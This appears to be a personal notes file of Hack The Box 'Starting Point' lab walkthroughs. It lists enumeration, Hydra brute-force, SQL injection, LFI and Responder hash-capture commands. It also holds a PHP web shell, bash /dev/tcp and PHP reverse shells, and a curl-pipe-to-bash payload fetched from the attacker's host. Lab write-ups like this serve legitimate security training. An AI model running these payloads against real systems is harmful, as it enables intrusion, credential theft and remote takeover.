 # HTB Notes

## Starting Point Tier 0

Nmap basic list
`nmap -v1 -Pn 123.456.789.0`

SMB List Shares
`smbclient --list 10.129.49.171`

SMB List Folders
`smbmap -u root -p "" -H 10.129.49.171 -r`

SMB Folder Content
`smbmap -u root -p "" -H 10.129.49.171 -R WorkShares`

SMB Download files
`smbmap -u root -p "" -H 10.129.49.171 --download 'WorkShares\James.P\flag.txt'`

### Explosion

Unix RDP Connection
`xfreerdp /v:10.1.1.1 /u:administrator`

### Preignition

GoBuster find files / directories on Web Sever ending in PHP using Wordlist
`gobuster dir --url 10.129.38.239 --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php`

Hydra Login Form attack using HTTP Form Post
`hydra -l admin -P Passwords/2020-200_most_used_passwords.txt 10.129.116.45 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong" -v`

### Mongod

Nmap scan all ports fast (does not work in nmapgui)
`nmap -p- --min-rate=1000 -sV {target_IP}`

MongoDB Shell Connect
`mongosh {target_IP}`

Mongo List Databases
`show databases`

Mongo Show Collection Content
`db.{collection_name}.find().pretty()`

### Synced

Rsync list shares
`rsync --list-only {target_IP}::`

Rsync copy file to local
`rsync 10.129.228.37::public/flag.txt ./flag.txt`

## Starting Point Tier 1

### Appointment

MySQL Injection Example Server query
`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

Injection Attack
$username = admin
$password = ' OR 1=1 #
`$sql="SELECT * FROM users WHERE username='admin' AND password='' OR 1=1 #'";`

### Sequel
Mysql login broken / unable to login

### Crocodile
FTP Login
`ftp anonymous@{target_IP}`

FTP list / download
`ls` / `get`

### Responder
Web Server IP Redirection to URL, but URL inaccessible
echo "{target_IP} {target_URL}" >> /etc/hosts

Local File Inclusion
`http://unika.htb/index.php?page=FOOBAR`
No such file or directory in C:\xampp\htdocs\index.php
Access check at `http://unika.htb/index.php?page=../../../windows/system32/drivers/etc/hosts` successful
Or `http://unika.htb/index.php?page=../../../documents and settings/administrator/desktop/desktop.ini`

Using Responder to try and have webserver connect to us, proving NTLM Hash
`responder -I {network_interface}`
http://unika.htb/index.php?page=http://10.10.14.74
Answer: Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in C:\xampp\htdocs\index.php on line 11
Unable to include `http://` URLs

Run Gobuster with LFI List in Fuzz mode, trying to see which directories / files we can access
gobuster fuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/file_inclusion_windows.txt --url "http://unika.htb/index.php?page=" --exclude-length 0-700

Back to Responder:
Try to include File URL:
http://unika.htb/index.php?page=//10.10.14.74/file
Responder successfully captures Hash > hash.txt

Offline Crack NTLM hash using John the Ripper
John The Ripper available Hash Formats
`john --list=formats`
`john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 ~/hash.txt`

With found Password and WinRM running, connect to target and grab flag
`evil-winrm -i 10.129.95.234 -u administrator -p badminton`

### Three
Subdomain Enumeration - DOES NOT WORK
Domain was added to /etc/hosts, so any DNS queries to that domain won't resolve
`gobuster dns --domain thetoppers.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt --threads 128`
instead use GoBuster vhost mode
`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ --threads 128 --append-domain`

Use AWS CLI to list S3 files using found S3 endpoint
`aws --endpoint http://s3.thetoppers.htb s3 ls`

Create PHP Reverse Shell and upload it to web server via S3
`<?php system($_GET["cmd"]); ?>`
Confirm Reverse Shell works
http://thetoppers.htb/?cmd=id
    More advanced Reverse Shell at
    https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php
    Or Interactive Reverse Shell at
    https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell-one-liner
    

Upgrade to Interactive Reverse Shell
    Or others
    https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp
Create file on local host > shell.sh
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

Serve file
`python -m http.server 8000`
Spawn Netcat to expect incoming connections
`nc -nvlp 1337`
Using Reverse Shell, get target to download and execute reverse Shell
`http://thetoppers.htb/?cmd=curl%2010.10.14.74:8000/shell.sh|bash`

Alternatively directly spawn reverse Shell from PHP:
```php
<?php
    // Start a listener on the attacker's machine
    $sock=fsockopen("attacker-ip", 4444);
    exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

Once Connected using Netcat, upgrade to nicer interactive Shell
`python3 -c “import pty;pty.spawn(‘/bin/bash’)”`

### Ignition

Enumerate Subdirectories
`gobuster dir --url http://ignition.htb --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

Crack Login at Magento Login page
Couldn't get it to work
`hydra -l admin -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt ignition.htb http-post-form "/admin:username=^USER^&login=^PASS^:disabled" -v`

### Bike
Use `Wappalyzer` Chrome Extension to check used technologies
Using Hacktricks SSTI [Identificaton by Payload](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#identification-by-payloads) find the correct Templating Engine
Enter `{{7*7}}` into input field to check for Server Side Template Injection
Using Burp Suite's Repeater and Decoder, take Hacktrick's Payload (URL Encoded) and submit it.
Keep massaging until code execution is achieved.


### Funnel
Nmap Scan, FTP Anonymous, Default Passwords, Hydra SSH + FTP, SSH Access. Local Postgresql db found via htop
List locally listening ports using `ss -tl` or without resolving names `ss -tln`
Port forward 5432 to attacker using 
`ssh -N -L [local_port]:localhost:[destination_port] [username]@[ssh_server]`
In this case: `ssh -N -L 5432:localhost:5432 christine@10.1.2.3`
Then start psql locally using `psql -h localhost -p 5432 --user christine`

    Could also have used Dynamic Port Forwarding (SOCKS5) using Proxychains (configurable at `/etc/proxychains4.conf`)

Within `psql`
`\l` list all tablespaces
`\c secrets` change to secrets database
`\d` list tables
`select * from flag;`

### Pennyworth
Does not work: `hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt 10.129.197.213 -s 8080 http-post-form "/:j_username=^USER^&j_password=^PASS^:Invalid" -v`
Web Server's Anti-CSRF Protection triggers and doesn't accept Hydra's Input
Jenkins Web Interface allows executing arbitrary commands on host using Dashboard > Nodes > master > Script Console

### Tactics

